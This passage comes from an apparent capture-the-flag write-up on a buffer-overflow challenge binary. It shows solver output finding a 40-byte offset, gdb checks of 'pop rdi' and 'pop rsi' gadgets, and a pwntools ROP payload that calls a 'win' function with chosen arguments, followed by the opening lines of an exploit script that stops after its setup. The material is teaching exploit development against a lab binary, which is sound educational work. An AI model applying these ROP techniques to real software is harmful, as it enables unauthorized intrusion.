 The output of this is:

```console
➜  challenge git:(main) ✗ python solver.py
[*] '/home/w3th4nds/github/Thesis/challenge2/challenge/challenge2'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './challenge2'

[*] Searching for Overflow Offset..

[+] Buffer Overflow Offset found at: 40

rdi @ 0x400bd3
rsi @ 0x400bd1
```

So, we have `pop rdi` at 0x400bd3 and `pop rsi` at 0x400bd1. In order to verify this, we can use `gdb`. Inside `gdb`, we will examine the address with `x/4i` command. The result is:

```gdb
gef➤  x/4i 0x400bd3
   0x400bd3 <__libc_csu_init+99>:	pop    rdi
   0x400bd4 <__libc_csu_init+100>:	ret    
   0x400bd5:	nop
   0x400bd6:	nop    WORD PTR cs:[rax+rax*1+0x0]
gef➤  x/4i 0x400bd1
   0x400bd1 <__libc_csu_init+97>:	pop    rsi
   0x400bd2 <__libc_csu_init+98>:	pop    r15
   0x400bd4 <__libc_csu_init+100>:	ret    
   0x400bd5:	nop
```

Our gadgets seem nice, the only odd thing is that `pop rsi`, is followed by a `pop r15` gadget. This does not affect us, we just need to fill this register with junks and we are good to go.

our payload should look like this:

```python
payload  = b"A"*40
payload += p64(rop.find_gadget(["pop rdi"])[0]) # pop rdi to insert first arg
payload += p64(0xdeadbeef)
payload += p64(rop.find_gadget(["pop rsi"])[0]) # pop rsi to insert second arg
payload += p64(0xc0deb4be)
payload += p64(0x1337b4be) # fill pop r15 with 8 bytes of junk
payload += p64(e.sym.win)  # call win 
```

### Exploit 📜

```python
#!/usr/bin/python3.8
import warnings
from pwn import *
from termcolor import colored
warnings.filterwarnings("ignore")

fname = "./challenge2" 

LOCAL =True# False

e     = ELF(fname)
rop   = ROP(e)

prompt = ">"
```